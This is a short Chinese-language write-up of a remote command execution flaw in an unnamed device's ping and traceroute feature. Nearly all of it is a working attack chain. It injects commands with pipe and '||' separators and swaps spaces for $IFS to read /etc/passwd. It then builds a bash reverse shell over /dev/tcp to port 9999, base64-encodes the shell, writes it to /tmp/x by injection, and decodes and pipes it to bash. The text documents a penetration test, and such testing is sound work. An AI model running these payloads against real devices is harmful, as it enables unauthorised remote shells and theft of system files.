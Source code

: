 ## 某设备RCE漏洞及其过程技巧

#### 漏洞产生位置
ping、tracout功能处  

#### 测试步骤
9200|pwd  ==> 返回 路径，判断命令执行成功  

9200|id|| ==> 返回uid，执行成功  

9200|command|| 因为后面还有些参数执行肯定会报错的，所有这里用了||  

注意：  
&  表示任务在后台执行  
&& 表示前一条命令执行成功时，才执行后一条命令   
|  表示管道，上一条命令的输出，作为下一条命令参数  
|| 表示上一条命令执行失败后，才执行下一条命令  

在测试的过程中，不能使用空格，导致不能执行带空格的命令  
但是测试过程中可以使用$IFS代替  

1.The IFS is a special shell variable.  
2.You can change the value of IFS as per your requirments.  
3.The Internal Field Separator (IFS) that is used for word splitting after expansion and to split lines into words with the read builtin command.  
4.The default value is `<space><tab><newline>`.    
[$IFS说明](https://bash.cyberciti.biz/guide/$IFS)  


Poc:    
`cat$IFS/etc/passwd`

反弹SHELL:    
`/bin/bash  -i > /dev/tcp/MyIP/9999 0<&1 2>&1`


但是这么长的命令直接去执行，一直不成功，怀疑特殊字符造成，尝试base64编码执行:  
`echo "L2Jpbi9iYXNoICAtaSA+IC9kZXYvdGNwLzE3Mi4xNi4xMy4xMi85OTk5IDA8JjEgMj4mMQo="|base64 -d|base`

本地Linux测试成功

编码的值就是上面反弹的SHELL命令  

```
[root@VM_202_59_centos ~]# echo "L2Jpbi9iYXNoICAtaSA+IC9kZXYvdGNwLzE3Mi4xNi4xMy4xMi85OTk5IDA8JjEgMj4mMQo="|base64 -d
/bin/bash  -i > /dev/tcp/172.16.13.12/9999 0<&1 2>&1
```

直接执行也不成功

思路转变：  
写base64编码后的命令到文件-->读取文件内容-->解码-->执行内容-->获取反弹SHELL  
`|echo$IFS"L2Jpbi9iYXNoICAtaSA%2BIC9kZXYvdGNwLzE3Mi4xNi4xMy4xMi85OTk5IDA8JjEgMj4mMQo%3D">>/tmp/x||`

因为此设备一个>写文件不成功，两个>>可以写成功文件，但是内容会多一个>，变成如下形式:  

```
[guestmetest@System ~]$ cat /tmp/x 
L2Jpbi9iYXNoICAtaSA+IC9kZXYvdGNwLzE3Mi4xNi4xMy4xMi85OTk5IDA8JjEgMj4mMQo=>
```

没有关系，直接调用:  
cat$IFS/tmp/x|base64$IFS-d|bash||


反弹成功！！！



